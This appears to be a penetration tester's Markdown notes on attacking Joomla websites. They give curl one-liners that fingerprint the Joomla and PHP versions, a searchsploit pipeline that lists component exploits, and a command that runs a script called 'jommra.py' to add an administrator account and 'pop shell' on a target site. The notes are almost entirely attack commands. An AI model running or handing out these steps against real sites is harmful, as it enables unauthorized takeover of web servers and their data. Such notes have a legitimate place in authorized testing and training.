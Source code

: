 ## Joomla Version
Most recent versions of Joomla contains a "joomla.xml" file within the "/administrator/manifests/files" directory, which is readable without authentication to the application.

```bash
curl -s http://<target-joomla>/administrator/manifests/files/joomla.xml | grep "<version>" | grep -Po "(\d+\.)+\d+"
```

## Joomla PHP version
```bash
curl -sSL -D - http://<target-joomla>/index.php -o /dev/null | grep "X-Powered-By"
```

## Joomla Extensions
```bash
searchsploit "Joomla" | grep "com_" | cit -f3 -d" " >> comptotestdb.txt

```

## Jommra.py to add admin account and pop shell
```bash
python jommra.py -u user -p userpass55 -e email@foo http://<target-joomla>/joomla
```
![[Pasted image 20220218033747.png]]